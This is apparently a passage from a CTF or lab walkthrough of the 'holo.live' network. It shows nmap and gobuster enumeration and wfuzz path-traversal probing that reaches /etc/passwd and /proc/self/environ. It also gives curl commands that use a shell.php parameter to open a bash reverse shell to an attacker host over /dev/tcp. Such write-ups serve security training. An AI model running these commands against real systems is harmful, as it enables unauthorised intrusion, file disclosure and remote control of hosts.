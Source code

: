 ## Methodology & Commands

### 1. Network Enumeration

We begin by running an initial scan of the infrastructure:

```bash
nmap -sV -p- 192.168.198.0/24 -oN initial_scan.txt
```

Key findings from Nmap:

- Apache2 web server running on port 80
- MySQL running on 3306
- Host identified as Ubuntu
- Additional metadata on TLS, HTTP, MySQL

---

### 2. Web Application Reconnaissance & Discovery

#### Gobuster Directory Enumeration

```bash
gobuster dir -u http://www.holo.live:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,bak,zip
```

Discovered:

- `/index.html`, `/index.php`, `/robots.txt`, `/server-status`, `/rce.php`, `/shell.php`

#### wfuzz File Inclusion & Discovery

```bash
wfuzz -c -w /usr/share/wfuzz/wordlist/Injections/Traversal.txt --hc 404 http://192.168.198.135:8080/lfi.php?file=FUZZ
```

Found accessible files:

- `/etc/passwd`
- `/proc/self/environ`
- Various Apache log files

---

### 3. Initial Foothold (Web Container)

#### Reverse Shell Exploit

Used curl to trigger remote execution:

```bash
curl -H 'Host: www.holo.live' "http://192.168.198.135:8080/rce.php?cmd=whoami"
curl -H 'Host: www.holo.live' "http://192.168.198.135:8080/shell.php?cmd=bash+-i+>&+/dev/tcp/192.168.198.130/4444+0>&1"
```
